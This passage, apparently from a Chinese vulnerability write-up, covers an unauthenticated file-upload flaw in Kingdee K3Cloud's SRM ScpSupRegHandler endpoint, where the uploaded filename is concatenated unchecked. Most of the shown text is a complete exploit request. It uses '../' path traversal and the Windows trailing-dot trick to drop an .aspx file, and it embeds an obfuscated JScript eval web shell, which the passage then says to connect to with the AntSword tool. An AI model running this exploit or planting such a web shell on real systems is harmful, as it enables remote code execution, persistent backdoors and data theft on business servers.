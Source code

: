 最后就是文件上传，看到直接使用`+`进行拼接，并且未做重命名处理

可以利用`../`跨目录，并且由于 windows 上传特性，会删除最后一个点，即上传文件名可以为`../../../../uploadfiles/test.aspx.`

#### 漏洞利用

```plain
POST /K3Cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 192.168.111.138
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------606727559931226829481104
Content-Length: 610

----------------------------606727559931226829481104
Content-Disposition: form-data; name="dbId_v"

.
----------------------------606727559931226829481104
Content-Disposition: form-data; name="FID"

2024
----------------------------606727559931226829481104
Content-Disposition: form-data; name="file"; filename="../../../../uploadfiles/test.aspx."
Content-Type: text/plain

<% function EE82o3kp(){var GEPH="unsa",YACK="fe",CO0C=GEPH+YACK;return CO0C;}var PAY:String=Request["123"];~eval/*Za61vZ34F4*/(PAY,EE82o3kp());%><%@Page Language = JS%>
----------------------------606727559931226829481104--
```

蚁剑连接

